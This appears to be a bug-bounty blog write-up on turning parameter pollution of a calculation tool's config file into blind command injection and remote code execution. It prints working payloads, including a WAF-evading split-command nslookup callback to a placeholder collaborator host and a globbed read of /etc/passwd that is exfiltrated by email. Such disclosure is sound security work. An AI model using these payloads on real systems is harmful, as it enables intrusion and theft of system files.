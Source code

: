 ```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

### Background

While hunting on a private program, I happened across a calculation web app. It was a pretty standard web form that accepted around 10 different numerical values, performed some calculations, then emailed the results back to the user. This behavior piqued my interest as I suspected that the application was passing the input to another server-side program.

![Web-Form](/assets/param-rce-webform.jpg)

I submitted the form a few times and after fumbling with the parameters, I got an email back with what looked like terminal output (the misaligned pipes are a dead giveaway).

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

### CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to try and locate dangerous function calls such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass arbitrary input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable. On top of that, the web application used a regular expression to filter out any useful special characters like: \` $ ( ). 

At this stage we know the following so far:

*   The web application passes web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that **we control** that is passed to a system() call within CalcTool, which is our best chance at exploitation.
*   The goal is to find a way to pass something we control directly to that system call

### Polluting the Configuration

Bypassing filters can be tricky. In web applications, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, we know the web application accepts the variables as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration file had a few other numeric variables that lined up with similar ones from the web form. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looks like:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried polluted the job title variable using one of the numeric form values. If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

My goal was for the configuration file to look like this:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is essentially a blind command injection. Therefore, I needed an out-of-band method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw some activity! This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution.

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

The results of the email:

![Payload Contents](/assets/param-rce-email-output-passwd.jpg)

Thanks for reading!
